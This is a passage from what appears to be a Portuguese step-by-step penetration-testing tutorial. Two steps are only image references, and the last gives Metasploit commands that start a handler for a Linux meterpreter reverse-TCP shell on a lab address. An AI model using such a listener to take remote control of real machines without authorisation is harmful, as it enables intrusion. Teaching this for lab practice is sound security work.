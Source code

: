 Passo 2.
<img src="images/q_7.2.png" align="center" height=auto width=100%>

Passo 3.
<img src="images/q_7.3.png" align="center" height=auto width=100%>

Passo 4.
```bash
msfconsole

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run
```